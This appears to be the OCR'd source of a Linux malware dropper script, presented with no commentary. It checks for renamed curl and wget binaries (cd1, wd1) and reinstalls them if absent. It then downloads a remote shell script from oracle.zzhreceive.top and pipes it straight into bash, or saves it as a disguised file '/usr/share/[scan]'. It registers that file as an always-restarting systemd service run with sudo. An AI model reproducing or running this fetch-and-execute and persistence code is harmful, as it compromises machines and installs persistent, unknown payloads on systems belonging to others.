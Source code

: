 #/bin/bash
if [ -f /bin/cd1 ];then
aabb=/bin/cd1
echo "cd1 exist"
elif [ -f /bin/curl ];then
aabb=/bin/curl
echo "curl exist"
elif [ -f /usr/bin/curl ];then
aabb=/usr/bin/curl
echo "curl exist"
elif [ -f /usr/bin/cd1 ];then
aabb=/usr/bin/cd1
echo "cd1 exist"
else
echo "curl not exist,use yum reinstall"
yum -y remove curl&&yum -y install curl
fi


if [ -f /bin/wd1 ];then
ccdd=/bin/wd1
echo "wd1 exist"
elif [ -f /bin/wget ];then
ccdd=/bin/wget
echo "wget exist"
else
echo "wget not exist,use yum reinstall"
yum -y remove wget&&yum -y install wget
fi

if ! type systemctl >/dev/null; then

    $aabb -fsSL http://oracle.zzhreceive.top/b2f628/rss.sh | bash

  else

    echo "[*] Creating scan systemd service"

$aabb -fsSL http://oracle.zzhreceive.top/b2f628/rss.sh -o /usr/share/\[scan\] && chmod 744 /usr/share/\[scan\]
    cat >/tmp/scan.service <<EOL
[Service]
ExecStart=/usr/share/[scan]
Restart=always

[Install]
WantedBy=default.target
EOL
    sudo mv /tmp/scan.service /etc/systemd/system/scan.service
    echo "[*] Starting scan systemd service"
    sudo killall [scan] 2>/dev/null
    sudo systemctl daemon-reload
    sudo systemctl enable scan.service
    sudo systemctl start scan.service
fi